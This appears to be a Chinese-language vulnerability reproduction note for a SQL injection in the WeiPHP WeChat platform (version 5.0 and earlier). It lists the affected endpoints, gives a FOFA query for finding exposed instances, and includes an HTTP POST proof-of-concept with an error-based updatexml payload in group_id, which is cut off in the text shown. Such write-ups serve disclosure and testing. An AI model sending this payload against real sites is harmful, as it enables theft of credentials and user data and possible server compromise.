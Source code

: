 
# WeiPHP 微信开发平台 SQL 注入漏洞复现

### 0x01 产品简介

 weiphp 是一个开源，高效，简洁的微信开发平台，基于 oneThink 内容管理框架实现。

### 0x02 漏洞概述

 weiphp 微信开发平台 \_send\_by\_group、 wp\_where、get\_package\_template 等接口处存在 SQL 注入漏洞，攻击者利用此漏洞可获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

### 0x03 影响范围

weiphp <=5.0

### 0x04 复现环境

FOFA：app="WeiPHP"

![4f7d20f99e004da7b395562fad542aee.png](assets/1701826206-2dc6d5c94b01727de0c834d3b333ff44.png)

### 0x05 漏洞复现

**PoC-1**

```http
POST /public/index.php/weixin/message/_send_by_group HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
Connection: close

group_id[0]=exp&group_id[1]=%29+and+updatexml%281
```
